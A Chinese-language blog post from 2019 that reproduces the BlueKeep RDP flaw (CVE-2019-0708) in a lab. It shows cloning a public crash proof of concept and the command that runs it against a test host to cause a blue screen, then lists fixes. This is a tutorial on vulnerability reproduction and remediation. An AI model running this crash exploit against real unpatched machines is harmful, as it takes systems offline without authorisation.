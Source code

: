 ```yaml
---
title: 【漏洞复现 CVE 2019-0708】17年的勒索病毒又双叕卷土重来了？
date: 2019-06-15 01:37:24
id: 190615-013724
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/2019-07081.gif
tags:
- 漏洞复现
- CVE 2019-0708
categories:
- 漏洞复现
---
```

# 0x00 前言
>2019年5月14日微软官方发布安全补丁，修复了Windows远程桌面服务的远程代码执行漏洞，该漏洞影响了某些旧版本的Windows系统。此漏洞是预身份验证且无需用户交互，这就意味着这个漏洞可以通过网络蠕虫的方式被利用。利用此漏洞的任何恶意软件都可能从被感染的计算机传播到其他易受攻击的计算机，其方式与2017年WannaCry恶意软件的传播方式类似。

以上内容来自360网络安全响应中心。
从微软官方的消息一出，各大安全厂商都开始发布了漏洞预警，那段时间我也一直在找对应的POC，但要不就是不能利用的POC，要不就是利用以前漏洞写的POC，更有甚着点击attack后给你惊喜。
<!--more-->
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/2019-07081.gif)
看到这个图片的时候，真的一副生无可恋的样子，随着时间推移，渐渐的也就不怎么关注这个漏洞了。
直到今天，看到网上有人发一些关于这个漏洞的利用复现视频的时候，才意识到已经过去正好一个月的，此时POC也早就被公布了。
早在在5月31日的时候，n1xbyte就在Github上发布了利用该漏洞导致系统蓝屏的可用POC ,所以我们来复现看看吧。

# 0x01 下载POC 
首先git clone代码
```bash
git clone https://github.com/n1xbyte/CVE-2019-0708.git
cd CVE-2019-0708
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/2019-07082.png)
# 0x02 开始复现
1、为了顺利复现成功，需要将被攻击机的远程桌面设为允许，防火墙也需要关掉。
2、被攻击机的IP地址与操作系统信息如下：
```
#被攻击主机
ip地址：192.168.1.106
系统类型：64位
```
3、安装需要的库后执行POC
```bash
pip3 install impacket
python3 crashpoc.py 192.168.1.106 64  #python3 crashpoc.py ip地址 系统类型
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/2019-07083.png)
POC被成功被执行，虽然现阶段只是让目标蓝屏，但是对这个漏洞的利用手段绝对不会止步于此。
# 0x03 修复方案
1、最简便的方法就是安装一个安全管家，比如火绒、360之类的
2、把系统的自动更新打开或者到微软官网[下载补丁](https://portal.msrc.microsoft.com/zh-cn/security-guidance/advisory/CVE-2019-0708)
3、把自己电脑上的远程桌面关掉、防火墙开启
# 0x04 小结
总是有人说没有绝对的安全，当然事实也确实是如此，但是只要我们平时养成一个良好的安全习惯，还是可以避免很多病毒木马的侵害的，毕竟很多的恶意程序都是广撒网，捕的鱼多不多就是另一回事儿了。

**最后再次强调，不得将本文用作违法犯罪目的，本文只用作技术分享交流学习使用。**


下面为视频演示：

<div style="position: relative; width: 100%; height: 0; padding-bottom: 75%;"><iframe src="//player.bilibili.com/player.html?aid=55626994&cid=97251766&page=1" " scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true" style="position: absolute; width: 100%; height: 100%; left: 0; top: 0;"> </iframe></div>

如果视频不能全屏播放，请点击[视频地址](https://www.bilibili.com/video/av55626994/ "视频地址")进行观看。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)